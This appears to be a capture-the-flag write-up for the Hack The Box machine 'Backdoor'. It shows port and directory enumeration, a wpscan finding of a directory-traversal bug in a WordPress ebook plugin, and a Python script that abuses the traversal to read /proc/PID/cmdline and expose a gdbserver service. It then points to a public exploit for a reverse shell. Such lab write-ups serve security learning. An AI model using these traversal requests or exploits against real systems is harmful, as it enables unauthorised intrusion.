 ![Header](screenshots/header.png)

## Enumeration

The IP is 10.10.11.125, I will add it to _/etc/hosts_:

![/etc/hosts/ picture](screenshots/etc-hosts.png)

Let's start off by enumerating the open ports:

```bash
$ nmap -p- --open -sS -v -n -Pn backdoor.htb -oG allPorts

# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.125 ()   Status: Up
Host: 10.10.11.125 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 1337/open/tcp//waste///   Ignored State: closed (65532)
```
  
It returns ports 22, 80 and 1337 as being open. 
  
I will run a _nmap_ script to list the services and their versions that are running on each open port
  
```bash
$ nmap -p22,80,1337 -sCV backdoor.htb -oN targeted

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

If you try to access via browser you will get an innocent website, where you can't do much.

Let's try to list subdirectories using _wfuzz_:

```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -u "backdoor.htb/FUZZ" --hc=404 -c

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000238:   301        9 L      28 W       317 Ch      "wp-content"
000000765:   301        9 L      28 W       318 Ch      "wp-includes"
000006941:   301        9 L      28 W       315 Ch      "wp-admin"
```

The subdirectory _wp-content_ is not visible to us, _wp-includes_ contains the plugins and themes, although we can't see the contents of the files.
Playing around with _wp-admin_ there doesn't seem to be any default credentials set.

So, knowing that we are dealing with _Wordpress_ as the CMS, we can try running _wpscan_ to list vulnerable plugins.
You will need an API token, which you can get [here](wpscan.com).

```bash
$ wpscan --url http://backdoor.htb/ --enumerate vp --plugins-detection aggressive --api-token <token>

[+] ebook-download
 | Location: http://backdoor.htb/wp-content/plugins/ebook-download/
 | Last Updated: 2020-03-12T12:52:00.000Z
 | Readme: http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Ebook Download < 1.2 - Directory Traversal
 |     Fixed in: 1.2
 |     References:
 |      - https://wpscan.com/vulnerability/13d5d17a-00a8-441e-bda1-2fd2b4158a6c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10924
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
```

## Foothold

We can see that there is a vulnerable version of the plugin **Ebook Download**. If we search for it on _searchsploit_, we fill find an exploit with **id 39575**.
I will download it on my computer using:

`$ searchsploit -m 39575`

If we open the text file, we can see that the plugin is vulnerable to Local File Inclusion.
We can list running processes using the path /proc/_pid_/cmdline, where pid is a valid process ID.
Using a Python script to iterate through the PIDs, we can find which are running.

```python
#!/bin/python3

import signal
import requests
import sys

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Stopping the process...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Global variables
main_url = "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"
empty_resp = 125

p1 = log.progress("Brute force")
p1.status("Starting brute force attack")

for pid in range(0,5000):
    p1.status("Testing pid %d" % (pid))
    content = (requests.get(main_url + str(pid) + "/cmdline")).content
    if (len(content) > empty_resp):
        print(f"[+] Process {pid} found")
        print(content)
        print("--------------------------------------------\n")
```

We see that there's a service called gdbserver running on the open port 1337:
  
```bash
[+] Process 850 found
b'/proc/850/cmdline/proc/850/cmdline/proc/850/cmdline/bin/sh\x00-c\x00while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;";done\x00<script>window.close()</script>'
```
  
If we look for it on _searchsploit_ we will find a vulnerability with **id 50539**.
If we run it and follow the instructions provided, we can get a reverse shell as user and view the flag.

![whoami output](screenshots/foothold.png)
